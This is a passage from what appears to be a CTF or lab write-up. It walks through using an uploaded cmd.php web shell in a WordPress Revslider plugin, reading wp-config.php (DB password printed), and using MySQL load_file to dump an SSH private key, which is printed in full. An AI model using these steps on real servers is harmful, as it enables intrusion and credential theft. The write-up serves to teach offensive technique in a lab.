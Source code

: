 This will make the script available at `http://172.30.0.3/wp-content/plugins/revslider/temp/update_extract/revslider/cmd.php`.

Use this to explore the filesystem, etc. until we come across the file at
`/var/www/note.txt`, which says that "Your ssh key was placed in /backup/id\_rsa
on the DB server. "

Also, we can obtain the credentials for the DB server by reading the file
located at `/var/www/wp-config.php`.

```php
<?php
[...]
// ** MySQL settings - You can get this info from your web host ** //
/** The name of the database for WordPress */
define('DB_NAME', 'wordpress');

/** MySQL database username */
define('DB_USER', 'wordpress');

/** MySQL database password */
define('DB_PASSWORD', '0NYa6PBH52y86C');

/** MySQL hostname */
define('DB_HOST', '172.30.0.2');
[...]
```

Armed with this information, we log into the MySQL server and read out the
backed up SSH key.

```
MySQL [(none)]> select load_file('/backup/id_rsa');
[...]
-----BEGIN RSA PRIVATE KEY-----
MIIEpAIBAAKCAQEA3Z35DpTcnm4kFkkGp6iDXqvUNH+/+hSDOY6rXsa40WMr7rjc
tHh8TgOBFZ6Rj5VzU/jY8O0qHxiPVn7BCYKhqyp1V1l9/ZCPRSjRLYy62dVTiHUt
ZbiPiY9+biHIsQ/nZfwiHmwlb0sWDoyFvX3OL/3AFMcYpZ4ldHQuwszJF4DeTV33
ruSBoXIiICQyNJBHTboVel+WXAfMNumYMVNrtrwpNoD7whv9Oa2afUejXMJL42Rw
8Xhab59HIIL9fl68FqgggVI4X3d/fzqKKGyoN5JxBLmQTCiVxhxTMv9OS0MhdSg6
Nh3+lf/wUuweUQXqmohvETntwwGs8jnJGCyeDwIDAQABAoIBAHGVRpG/n/cfMiWt
1dhWGMaLwJ4Ln6QXoU39nj1cEltWvayDWLKyUdtWFnGzLJ1vloVCNEX+96iqWMSX
AG7UYfGtOCjFuDoePh/PFK6IwzdkC4UTsWnCFucFAWKGtCpzoUB24jG/ccxBqpNY
WC9PbD7SigDcLfisPjwaU+EJPkNpl93VBk1BCJRbvWF+Wl/si3wmMZ0YRoyIAF5L
oBsq935xH8kJcixSVYKjG3hMUZfiLoQB+p/IFsxDlfGLE+M1esTZ5GIRjj+t7vBN
l2JZTY893gjfQzUv2WrJXzMhJvWGzOCsRRc4gOSeS6GYiip8glqg8iWHpWdgF6i9
oAQx5pkCgYEA7oTmvy0cXvhPjkEbrizCCqf6sXfZps5e6eminTTBGA8NW/Uq+SQv
5JEYxvIL+qMH6cKkc8rBaNhgy3vnv+UgE1PUFI0UWFGKb+OpzzvY/zkmf03enxrl
SK+QXH4FS9f7leivZRVEWBq1kDVIqHZtybYGg0etOvHYX0GwqV2UTy0CgYEA7dv0
bxz6CO9bhxxpXRrrykX2Z57J3JW2I3yVkCY+4Y6x106K11X+b1547kEZk40i2Ugc
iE6jcYIRiYNiSgb0Ph4uxZHFlvBr8JA2fGHYIAnGRcoc1Gzgz5omRvU9H8uy5ipO
LyZ2dnMgXRVOjuXoN4UZR2rgWmJVLD1q7eKnh6sCgYAnVOUUC2VNR9celx/wZdMN
nMubLi9G8Wr3WZ6GG+fnhrvmORSABvaa005pqApPp0irxHwH2BxypJO5mlIJ88eJ
SF6FkQoU0kVo0/rxgGX1GEB/56BZTj8W8FR23BUVf6UuADPEEHC3spfUEuVLWlQa
WhjS1yP6v1y1wIhYNWU6dQKBgQDbZ1zdcXkh7MgcpRR7kW2WM1rK0imZk29i5HSB
dwXhwWJCHGztnKEJ0bby7pHNDQ7sJhxLj14sQbIzikGLz0ZUVjsGeyQryrGGQUBB
E2/sfZeqoHhfad8lICfWpDgxsA/hR3y++VekgyWDNzgzj9bX/6oFuowgUzwFhtGv
hLbL6QKBgQCvcDMmWs2zXwmIo1+pIHUUSv2z3MWb0o1dzHQI/+FJEtyQPwL1nCwg
bJaC0KT45kw0IGVB2jhWf0KcMF37bpMpYJzdsktSAmHdjLKdcr6vw2MNpRapaNQe
On0QmLzbpFr9kjqorinKVkjk/WlTo9rKDSrLiUueEVYTxEMCi92giw==
-----END RSA PRIVATE KEY-----
[...]
```
